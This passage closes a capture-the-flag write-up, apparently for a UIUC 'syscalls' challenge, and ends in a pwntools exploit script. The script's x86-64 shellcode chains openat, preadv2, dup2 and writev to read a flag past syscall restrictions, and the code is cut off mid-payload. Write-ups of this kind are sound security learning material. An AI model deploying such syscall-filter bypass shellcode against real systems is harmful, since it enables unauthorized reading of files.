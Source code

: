 So I duplicate *stdout* into a big enough File descriptor and we can finally print our flag out.


## Considerations
This challenge made me learn about `writev`s and `pread`s syscall. I think that it was an overall nice challenge.

## Exploit
```python
#!/usr/bin/env python3
  
from  pwn  import  *

exe  =  ELF("./syscalls_patched")
context.binary  =  exe
context.terminal  = ["tmux", "splitw", "-h"]

def  conn():

if  args.LOCAL:
r  =  process([exe.path])
if  args.GDB:
gdb.attach(r)

else:
r  =  remote("syscalls.chal.uiuc.tf", 1337, ssl=True)  
return  r

def  main():

r  =  conn()
r.recvuntil(b"I can give you.\n")
shellcode  =  """
mov rdi, -100
lea rsi, [rip + x1]
mov rdx, 0
mov eax, 257
syscall

lea r12, [rsp+24]
push 60
push r12

mov rdi, 3
lea rsi, [rsp]
mov rdx, 1
mov r10, 0
xor r8, r8
mov eax, 327
syscall

mov rdi, 1
mov rsi, 4294967296
mov rax, 33
syscall

mov rdi, 4294967296
lea rsi, [rsp]
mov rdx, 1
mov r9, 0
mov eax, 20

syscall
```